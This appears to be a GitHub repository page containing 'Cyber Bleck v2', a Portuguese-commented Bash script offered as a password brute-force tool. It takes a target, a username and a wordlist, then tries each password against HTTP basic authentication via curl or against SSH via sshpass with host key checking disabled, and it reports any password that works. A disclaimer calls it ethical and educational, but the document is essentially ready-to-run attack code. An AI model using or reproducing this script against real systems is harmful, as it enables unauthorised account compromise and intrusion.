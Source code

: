 # Cybe-bleck
Para brut force   
#!/bin/bash
# ===============================================
# Cyber Bleck v2 - Script de Brute Force Ético
# Desenvolvido para uso educacional e ético
# Utilize apenas com permissão em ambientes controlados!
# ===============================================

# ===============================================
# CONFIGURAÇÕES INICIAIS
# ===============================================
TARGET=""            # URL ou endereço IP do alvo
USER=""              # Nome do usuário para autenticação
PASSWORD_FILE=""     # Caminho do arquivo de senhas
MODE=""              # Modo de ataque: http ou ssh

# ===============================================
# FUNÇÕES
# ===============================================

# Exibe o uso correto do script
function exibir_uso() {
  echo "Uso: $0 -t TARGET -u USER -p PASSWORD_FILE -m MODE"
  echo " -t TARGET       URL ou IP do alvo (ex.: http://site.com ou 192.168.1.1)"
  echo " -u USER         Nome do usuário para autenticação"
  echo " -p PASSWORD_FILE Arquivo contendo as senhas, uma por linha"
  echo " -m MODE         Modo de ataque: 'http' para autenticação HTTP ou 'ssh' para SSH"
  exit 1
}

# Verifica se o arquivo de senhas existe
function verificar_arquivo() {
  if [ ! -f "$PASSWORD_FILE" ]; then
    echo "[ERRO] Arquivo de senhas '$PASSWORD_FILE' não encontrado. Saindo..."
    exit 1
  fi
}

# Realiza ataque de brute force em autenticação HTTP básica
function brute_force_http() {
  echo "=== Cyber Bleck - Modo HTTP ==="
  echo "Alvo: $TARGET | Usuário: $USER"
  while read -r PASSWORD; do
    echo "[Tentando] Senha: $PASSWORD"
    STATUS_CODE=$(curl -s -o /dev/null -w "%{http_code}" -u "$USER:$PASSWORD" "$TARGET")
    if [ "$STATUS_CODE" == "200" ]; then
      echo "[SUCESSO] Senha encontrada: $PASSWORD"
      exit 0
    fi
  done < "$PASSWORD_FILE"
  echo "[FALHA] Nenhuma senha válida encontrada."
}

# Realiza ataque de brute force em autenticação SSH
function brute_force_ssh() {
  echo "=== Cyber Bleck - Modo SSH ==="
  echo "Alvo: $TARGET | Usuário: $USER"
  while read -r PASSWORD; do
    echo "[Tentando] Senha: $PASSWORD"
    sshpass -p "$PASSWORD" ssh -o StrictHostKeyChecking=no $USER@$TARGET exit &>/dev/null
    if [ $? -eq 0 ]; then
      echo "[SUCESSO] Senha encontrada: $PASSWORD"
      exit 0
    fi
  done < "$PASSWORD_FILE"
  echo "[FALHA] Nenhuma senha válida encontrada."
}

# ===============================================
# PROCESSAR ARGUMENTOS
# ===============================================
while getopts "t:u:p:m:" opt; do
  case $opt in
    t) TARGET=$OPTARG ;;
    u) USER=$OPTARG ;;
    p) PASSWORD_FILE=$OPTARG ;;
    m) MODE=$OPTARG ;;
    *) exibir_uso ;;
  esac
done

# Validar se todos os argumentos foram fornecidos
if [ -z "$TARGET" ] || [ -z "$USER" ] || [ -z "$PASSWORD_FILE" ] || [ -z "$MODE" ]; then
  exibir_uso
fi

# ===============================================
# EXECUÇÃO
# ===============================================
verificar_arquivo

if [ "$MODE" == "http" ]; then
  brute_force_http
elif [ "$MODE" == "ssh" ]; then
  brute_force_ssh
else
  echo "[ERRO] Modo inválido. Use 'http' ou 'ssh'."
  exibir_uso
fi

